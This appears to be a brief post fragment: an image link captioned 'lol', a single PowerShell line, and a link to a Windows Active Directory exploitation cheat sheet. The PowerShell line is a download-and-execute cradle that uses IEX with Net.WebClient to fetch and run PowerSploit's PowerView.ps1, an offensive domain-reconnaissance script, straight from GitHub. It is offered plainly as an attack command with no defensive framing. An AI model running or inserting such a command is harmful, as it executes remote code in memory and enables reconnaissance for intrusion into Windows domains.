 lol
$command = 'IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1")'

https://casvancooten.com/posts/2020/11/windows-active-directory-exploitation-cheat-sheet-and-command-reference/

